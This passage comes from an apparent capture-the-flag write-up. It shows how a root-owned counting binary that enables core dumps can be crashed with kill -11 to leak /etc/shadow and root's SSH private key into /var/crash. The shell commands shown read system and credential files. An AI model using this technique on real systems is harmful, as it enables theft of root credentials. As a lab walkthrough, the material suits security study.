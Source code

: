 We can see an unusual file there in /opt directory (/opt/count)



```
dasith@secret:/opt$ ./count
Enter source file/directory name: /etc/shadow

Total characters = 1187
Total words      = 36
Total lines      = 36
Save results a file? [y/N]: y
Path: /tmp/shadow

```



After examining the code.c file we can see the funtion that it performs. 

<mark>prctl(PR_SET_DUMPABLE, 1);</mark> . It is enabling the ability to do coredump.



#### What is coredump?

A core dump is a file that gets automatically generated by the Linux kernel after a program crashes. This file contains the **memory, register values, and the call stack of an application at the point of crashing**.



Make an ssh key for the user dasith and login to ssh on another terminal. While running the binary count, kill the process from other terminal to crash the process. So that the data will be dumped to /var/crash directory. We can view the content of the file from the dumped file.

```
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: Segmentation fault (core dumped)
dasith@secret:/opt$ 
```



The other terminal,

```
dasith@secret:~$ cd /var/crash
dasith@secret:/var/crash$ ps -ef | grep count
root         826       1  0 04:48 ?        00:00:00 /usr/lib/accountsservice/accounts-daemon
dasith     31689    1794  0 15:48 pts/0    00:00:00 ./count
dasith     31692   31425  0 15:48 pts/1    00:00:00 grep --color=auto count
dasith@secret:/var/crash$ kill -11 31689
dasith@secret:/var/crash$ ls
_opt_count.1000.crash

```
